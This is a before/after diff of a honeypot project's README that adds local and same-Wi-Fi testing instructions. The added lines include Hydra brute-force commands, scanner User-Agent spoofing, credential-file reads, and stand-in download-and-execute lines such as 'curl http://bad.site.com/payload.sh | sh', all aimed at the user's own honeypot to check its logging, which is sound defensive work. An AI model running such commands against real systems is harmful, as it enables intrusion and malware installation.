

Before and after one commit to Majorwhiskey/honeypot, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Add local and LAN testing sections to README
- Expanded local testing with Hydra brute-force examples, scanner
  User-Agent simulation, and SSH fake shell command logging
- New section: testing from another device on the same Wi-Fi
  (find local IP, open firewall ports, attack from phone/laptop,
  watch dashboard live)

Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

````diff
--- a/README.md
+++ b/README.md
@@ -268,6 +268,8 @@ Indexes on `timestamp`, `src_ip`, and `service`. WAL mode enabled for concurrent
 
 ## Testing Locally
 
+Run these from the same machine the honeypot is running on:
+
 ```bash
 # SSH — enter any password, then try shell commands
 ssh -p 2222 root@localhost
@@ -278,9 +280,79 @@ ftp localhost 2121
 # Telnet
 telnet localhost 2323
 
-# HTTP — via browser or curl
+# HTTP — common attack paths
 curl http://localhost:8888/wp-login.php
+curl http://localhost:8888/.env
 curl http://localhost:8888/phpmyadmin
 curl http://localhost:8888/jenkins
-curl http://localhost:8888/.env
+
+# POST login attempt
+curl -X POST http://localhost:8888/wp-login.php \
+  -d "log=admin&pwd=password123"
+
+# Simulate scanner User-Agents (triggers fingerprinting)
+curl -A "Nikto" http://localhost:8888/
+curl -A "Masscan/1.0" http://localhost:8888/
 ```
+
+Brute-force simulation with Hydra:
+
+```bash
+sudo apt install hydra -y
+echo -e "123456\npassword\nadmin\nroot\nletmein" > passwords.txt
+
+hydra -l root -P passwords.txt ssh://localhost:2222 -t 4
+hydra -l admin -P passwords.txt ftp://localhost:2121
+hydra -l root -P passwords.txt telnet://localhost:2323
+```
+
+SSH shell — once connected, type commands to test logging:
+
+```bash
+ssh -p 2222 root@localhost
+# Inside fake shell:
+id
+cat /etc/passwd
+wget http://malware.example.com/bot.sh     # logged as malware_download
+curl http://bad.site.com/payload.sh | sh   # also logged
+```
+
+---
+
+## Testing from Another Device on the Same Wi-Fi
+
+You can attack the honeypot from a phone or laptop on the same network — events will appear in the dashboard with the attacking device's local IP.
+
+**Step 1 — Find your machine's local IP:**
+
+```bash
+hostname -I
+# e.g. 192.168.1.42
+```
+
+**Step 2 — Allow ports through the firewall (if ufw is active):**
+
+```bash
+sudo ufw allow 2222
+sudo ufw allow 8888
+sudo ufw allow 2121
+sudo ufw allow 2323
+```
+
+**Step 3 — From the other device, attack using your local IP:**
+
+```bash
+# SSH
+ssh -p 2222 root@192.168.1.42
+
+# HTTP
+curl http://192.168.1.42:8888/wp-login.php
+curl http://192.168.1.42:8888/.env
+
+# FTP
+ftp 192.168.1.42 2121
+
+# Telnet
+telnet 192.168.1.42 2323
+```
+
````
Also changed, not shown: other parts of README.md (+5 -0 lines).
